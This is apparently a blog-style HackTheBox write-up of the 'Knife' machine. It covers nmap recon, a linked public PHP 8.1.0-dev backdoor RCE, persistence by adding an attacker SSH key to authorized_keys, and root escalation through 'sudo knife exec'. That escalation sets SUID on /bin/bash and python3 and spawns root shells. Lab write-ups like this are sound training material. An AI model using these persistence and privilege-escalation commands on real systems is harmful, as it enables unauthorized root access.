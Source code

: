 ```yaml
---
title: "Knife - HTB"
author:
  name: 0xKirito
  link: https://github.com/0xKirito
date: 2021-06-04 07:38:32 +05:30
categories: [Writeups, HackTheBox]
img_path: /assets/img/writeups/knife/
tags: [HTB, PHP, Knife]
render_with_liquid: false
---
```


## Recon & Enumeration

- `nmap -Pn -p- -A 10.10.10.242`

```
10.10.10.242:22 => OpenSSH 8.2p1 Ubuntu
10.10.10.242:80 => Apache httpd 2.4.41
```

- Wappalyzer shows PHP 8.1 version. 
- Burp Repeater will also reveal the PHP version information in server headers. 

![Burp Suite Repeater reveals PHP version.png](knife_burp_repeater_reveals_php_version.png)

---

## Exploitation

- Google: `php 8.1 0 dev exploit` 
- [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933) 
- `687da428-----------77b683b1c`

- Get ssh files from `/home/james/.ssh`
- `ssh-keygen` on Kali VM to make your own `id_rsa.pub` and then paste its content in victim Knife's `/home/james/.ssh/authorized_key` file. 
- On Kali: `ssh -i ~/.ssh/id_rsa james@10.10.10.242`
- I can ssh into Knife with my own private `id_rsa` key as I've added my `id_rsa.pub` key to `/home/james/.ssh/authorized_key`
- `sudo /usr/bin/knife exec`
- Starts an interactive Knife shell. 

---

## Privilege Escalation

- `sudo -l` shows we can run `/usr/bin/knife` as root without password.
- Went to [Knife docs](https://docs.chef.io/workstation/knife_exec/) and knife has an `exec` command. 
- `sudo /usr/bin/knife exec`
- `sudo /usr/bin/knife exec -e 'sudo ruby -e exec "/bin/bash";'` 
- `system('chmod +s /bin/bash')` in interactive shell. 
- Press enter and then `Ctrl+D` to exit. 
- `ls -la /bin/bash` 
- `bash` now has SUID 
- `bash -p` <span class="fat-arrow">=></span> root!
- Try other commands as well like 
- `sudo /usr/bin/knife exec -e 'sudo ruby'`
- We can also set SUID on `python3'`
- `system('chmod +s /usr/bin/python3')` in interactive shell, `Ctrl+D`. And then: 
- `python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

![HTB Knife Privilege Escalation](htb_knife_privilege_escalation_root.png)

